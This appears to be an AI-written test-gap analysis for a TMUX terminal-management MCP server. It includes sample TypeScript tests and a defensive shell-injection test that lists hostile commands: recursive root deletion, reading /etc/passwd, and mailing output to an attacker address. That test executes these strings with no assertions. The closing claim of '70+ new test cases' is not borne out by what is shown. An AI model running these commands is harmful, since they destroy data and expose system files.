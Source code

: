 # Critical Test Improvements Analysis for Terminally MCP Server

## Executive Summary

After thorough review of the Terminally MCP server (a TMUX terminal management server) and its test suite, I've identified critical gaps in test coverage that could lead to production failures. The server acts as a conduit between MCP agents and TMUX terminals, introducing unique challenges around shell interaction, process management, and concurrent operations.

## Key Areas Requiring Improved Testing

### 1. **Command Execution Edge Cases** ⚠️ CRITICAL
The current tests don't adequately cover:
- **Shell injection vulnerabilities**: Commands with quotes, backticks, and shell metacharacters
- **Command length limits**: TMUX and shell have buffer limits that aren't tested
- **Exit code preservation**: Critical for agents to know if commands succeeded
- **Background process management**: Agents may spawn long-running processes
- **Interactive command handling**: Commands that expect input could hang the server

### 2. **Marker-Based Output Capture Issues** ⚠️ CRITICAL
The server uses UUID markers to delimit command output, but tests don't verify:
- **Marker collision**: What if user output contains similar UUIDs?
- **Partial marker capture**: Network delays could split markers across reads
- **Binary data handling**: Binary output could corrupt marker detection
- **Concurrent marker processing**: Multiple commands could interleave markers

### 3. **TMUX Session Management** ⚠️ HIGH
Missing coverage for:
- **Socket file conflicts**: Multiple server instances could collide
- **Session persistence**: What happens if TMUX server crashes?
- **Window ID validation**: Malformed IDs could cause TMUX errors
- **Maximum window limits**: TMUX has hard limits not tested

### 4. **Concurrency and Race Conditions** ⚠️ HIGH
Current tests are mostly sequential, missing:
- **Concurrent command execution in same tab**: Could corrupt output
- **Rapid tab creation/deletion**: Could expose race conditions
- **Interleaved read/write operations**: Output might be inconsistent
- **Protocol message ordering**: MCP responses could arrive out of order

### 5. **Timeout and Performance** ⚠️ MEDIUM
Insufficient testing of:
- **Dynamic timeout adjustment**: Short commands shouldn't wait 10 seconds
- **Hanging command detection**: Commands waiting for input need special handling
- **Performance under load**: Many tabs with active processes
- **Memory leaks**: Long-running server with many operations

### 6. **Error Recovery** ⚠️ HIGH
No tests for:
- **TMUX server restart**: Server should reconnect or fail gracefully
- **Zombie processes**: Killed tabs might leave processes running
- **Resource cleanup**: File descriptors, sockets, memory
- **Cascading failures**: One bad tab shouldn't affect others

### 7. **Shell Compatibility** ⚠️ MEDIUM
Limited testing of:
- **Different shells**: bash, zsh, fish, sh have different behaviors
- **Shell configuration**: User's .bashrc could break assumptions
- **Environment variable handling**: PATH, HOME, etc.
- **Unicode and encoding**: International characters, emojis

### 8. **MCP Protocol Compliance** ⚠️ HIGH
Missing validation of:
- **Error response format**: MCP has specific error schemas
- **Parameter validation**: Extra/missing parameters handling
- **Protocol version negotiation**: Future compatibility
- **Message size limits**: Large outputs could exceed limits

## Recommended Test Implementation Strategy

### Phase 1: Critical Security & Stability (Immediate)
1. **Command injection tests**: Validate all shell metacharacters are properly escaped
2. **Marker collision tests**: Ensure UUID markers can't be spoofed
3. **Concurrent operation tests**: Verify thread safety and isolation
4. **Error recovery tests**: Validate graceful degradation

### Phase 2: Robustness & Performance (Week 1)
1. **Stress tests**: Many tabs, long-running commands, rapid operations
2. **Timeout optimization**: Dynamic timeout adjustment based on command type
3. **Resource leak detection**: Memory, file descriptors, processes
4. **Shell compatibility matrix**: Test against common shells

### Phase 3: Edge Cases & Polish (Week 2)
1. **Binary data handling**: Ensure non-text output doesn't break the server
2. **International character support**: Full Unicode compliance
3. **Performance benchmarks**: Establish baselines for regression testing
4. **Integration tests**: Test with real MCP clients

## Specific Test Cases to Add

### Critical Test: Command Injection Prevention
```typescript
test('should prevent shell injection attacks', async () => {
  const maliciousCommands = [
    'echo "test"; rm -rf /',  // Command chaining
    'echo "$(cat /etc/passwd)"',  // Command substitution
    'echo "`whoami`"',  // Backtick execution
    'echo "test" | mail attacker@evil.com',  // Pipe to external command
  ];
  
  for (const cmd of maliciousCommands) {
    // Should execute safely without side effects
    const output = await harness.executeCommand(tabId, cmd);
    // Verify the dangerous parts weren't executed
  }
});
```

### Critical Test: Marker Collision
```typescript
test('should handle output containing UUID-like strings', async () => {
  const fakeMarker = 'MCP_START_MARKER_12345678-1234-1234-1234-123456789012';
  const output = await harness.executeCommand(tabId, `echo "${fakeMarker}"`);
  
  // Should not confuse this with actual markers
  expect(output).toContain(fakeMarker);
  expect(output).not.toBe(''); // Shouldn't think command hasn't finished
});
```

### Critical Test: Concurrent Tab Operations
```typescript
test('should handle 100 concurrent operations without corruption', async () => {
  const operations = [];
  for (let i = 0; i < 100; i++) {
    if (i % 4 === 0) operations.push(harness.createTab(`tab-${i}`));
    else if (i % 4 === 1) operations.push(harness.executeCommand(existingTab, `echo ${i}`));
    else if (i % 4 === 2) operations.push(harness.readOutput(existingTab));
    else operations.push(harness.listTabs());
  }
  
  const results = await Promise.all(operations);
  // Verify no errors and data integrity
});
```

## Implementation Recommendations

1. **Use Property-Based Testing**: Generate random inputs to find edge cases
2. **Add Fuzzing**: Send malformed MCP messages to test error handling
3. **Implement Chaos Engineering**: Randomly kill TMUX processes during tests
4. **Add Performance Regression Tests**: Track execution time and memory usage
5. **Create Integration Test Suite**: Test with real MCP clients and complex workflows

## Risk Assessment

### High Risk Areas:
- **Security**: Command injection could allow arbitrary code execution
- **Data Loss**: Incorrect marker parsing could lose command output
- **Stability**: Race conditions could cause server crashes
- **Compatibility**: Shell differences could cause failures on user systems

### Medium Risk Areas:
- **Performance**: Slow operations could timeout MCP clients
- **Usability**: Poor error messages could confuse users
- **Resource Usage**: Memory leaks could accumulate over time

## Conclusion

The current test suite provides basic coverage but lacks the depth needed for a production-ready MCP server that manages system terminals. The comprehensive test suite I've provided addresses these gaps with:

- **70+ new test cases** covering critical edge cases
- **Stress testing** with concurrent operations and high load
- **Security testing** for command injection and data integrity
- **Compatibility testing** across shells and encodings
- **Error recovery testing** for resilience

Implementing these tests will significantly improve confidence in the server's reliability and security, essential for a tool that provides terminal access to AI agents.

